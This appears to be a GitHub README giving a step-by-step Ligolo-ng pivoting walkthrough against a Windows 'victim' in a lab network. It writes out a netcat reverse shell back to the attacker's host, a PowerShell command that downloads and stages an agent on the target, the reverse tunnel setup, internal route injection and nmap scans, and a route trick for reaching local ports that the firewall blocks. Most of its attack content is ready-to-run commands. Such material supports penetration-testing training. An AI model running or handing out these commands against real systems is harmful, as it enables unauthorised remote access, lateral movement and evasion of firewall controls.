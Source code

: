 
# Ligolo Setup Guide

## We  got    Agent  and proxy :--

1. Proxy  ⇒  Kali Linux  [ Local pc  ]
2. Agent  ⇒  Target  machines [  Victim ]


 ## Symbols & Notations
- **$** : Turbo User (Non-root user on attacker machine)
- **#** : Root User  (root user on attacker machine)
- **C:\>** : Target Machine (Windows)
- **@** : Reverse Shell of Windows in Attacker End
- **##** : Ligolo-Proxy-Server

## 1 - Place `nc` Binary on Target Machine

Using a Python HTTP server:

```
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Windows\ Binaries]
└─$ python -m http.server 80
```

Access the server from the target machine:

```
http://192.168.1.13
```

---

## 2 - Get a Reverse Shell

Start a listener on port 443:


```bash
$ nc -nlvp 443
```

On the target machine, run:

```powershell
C:\> nc64.exe 192.168.1.13 443 -e cmd.exe
```

After executing this, the reverse shell will be active on the attacker’s listener.

![image](https://github.com/user-attachments/assets/cd48e5b2-5321-46c6-901a-0440aa837b9b)


---

## 3 - Transfer Ligolo Agent to Target Machine

Start a Python HTTP server:

```bash
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Ligolo_ng/win]
└─$ python -m http.server 80
```

On the reverse shell, download the agent:

```powershell
@ powershell Invoke-WebRequest "http://192.168.1.13/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

Alternative method:

```powershell
@ iwr -uri http://192.168.45.13/agent.exe -Outfile agent.exe
```

Or manually visit:

```
http://192.168.1.13
```

---

## 4 - Start Ligolo Proxy Server on Attacker Machine

Run the following as **root**:
Run on Attacker Box (Kali) with root User (192.168.1.13)

• Create the Ligolo tunnel interface on the attacker system
```
# ip tuntap add user turbo mode tun ligolo
```
![image](https://github.com/user-attachments/assets/b3b79fc3-9e1e-48d6-88c5-eb418294039c)

• Created Ligolo tunnel interface to active
```
# ip link set ligolo up
```
![image](https://github.com/user-attachments/assets/762332d3-7a3d-47bf-8d1e-991dd8c6fc23)

```
# cd /opt/Static\ Binaries/Ligolo_ng/win
```
```
# chmod +x proxy
```

Start the local proxy server:

```
# ./proxy -selfcert -laddr 0.0.0.0:80
```
Other Method
```
# ligolo-proxy -selfcert -laddr 0.0.0.0:80
```

---

## 5 - Start Ligolo Agent on Target Machine

### On Windows

```
@ agent.exe -connect 192.168.1.13:80 -ignore-cert
```

### On Linux

```
@ agent -connect 192.168.1.13:80 -ignore-cert
```

---

## 6 - Configure Network Routing on Attacker Machine

Check agent session:

```
## ligolo-ng » session
```


![image](https://github.com/user-attachments/assets/699f05da-9f93-496c-806e-ab5b21b56cf2)

```
## [Agent : root@webserver] » ifconfig
```
![image](https://github.com/user-attachments/assets/043d0a4f-f96e-4e72-8636-683fb3559ad5)


Add an internal network route:

```
# ip route add 192.168.2.0/24 dev ligolo
```

Verify routes:

```
# route -n
# ip route
```
![image](https://github.com/user-attachments/assets/c7320a87-f891-4583-897c-3ca4e99b7cc6)


Check active tunnels:

```
## [Agent : root@webserver] » tunnel_list
```
![image](https://github.com/user-attachments/assets/79c4ddc4-a94e-476e-bd21-42230fae5ce6)

Start the  Added network in Proxy-Server
```
## [Agent : root@webserver] » start
```
---

## 7 - Visit Services from Attacker Machine

- **http://192.168.1.20** - Bind in port 80 Apache page
- **http://192.168.2.10** - Bind to site2

  ![image](https://github.com/user-attachments/assets/beec36e4-a763-4bba-bc47-c6ddc01b4430)

- **http://127.0.0.1** - Binnd to site1

---

## 8 - Access Agent’s Local Ports ( 127.0.0.1 )

Link :-  https://github.com/nicocha30/ligolo-ng/wiki/Localhost

 If you need to access the local ports of the currently connected agent, there's a
"magic" CIDR hardcoded in Ligolo-ng: 240.0.0.0/4
This is an unused IPv4 subnet. If you query an IP address on this subnet, Ligolo-
ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).
```
# ip route add 240.0.0.1/32 dev ligolo
```

```

# ip route
```
![image](https://github.com/user-attachments/assets/1af2c3e5-fc79-4ecf-abe2-e3c0e61b1e93)

Visit from the attacker machine:

```
http://240.0.0.1
```
![image](https://github.com/user-attachments/assets/b4199875-dd13-4a9a-abff-8947c5c237ec)

Scan the network:

```
# nmap -v -p- -sT 240.0.0.1
```
⇒ When  we Scan  inside the  Target Machine  withthe help of  this  ip  (240.0.0.1) Port no 80 Open 

![image](https://github.com/user-attachments/assets/4f41d77a-ad29-45b0-9a9b-2fae09d4ed21)

⇒ When we  Scan  Outside of the Target Machine  withthe help of ip ( 192.168.1.20 ) Port no 80 Open 

![image](https://github.com/user-attachments/assets/685f1b85-f957-4014-aaa9-d6352576b96c)
 
========================================================

## Firewall in windows :- 
 
 In inbound Rule Block port no 80  which is not listning in nmap output ----

 ![image](https://github.com/user-attachments/assets/60ed9d5e-682d-4dbc-ab94-0da41fda42d1)


⇒ Port no  80 Block  By Firewall  they can't show in nmap output :--
 
 ![image](https://github.com/user-attachments/assets/ce723713-010e-4f0f-a159-908844a8956a)

 
 ⇒ port no 80  is show  in  local host Binding   127.0.0.1  [  240.0.0.1 ]

 ![image](https://github.com/user-attachments/assets/8c99d7c9-dc63-4dd5-a14e-ab7dec0fe8c4)

 
 
 
 

 

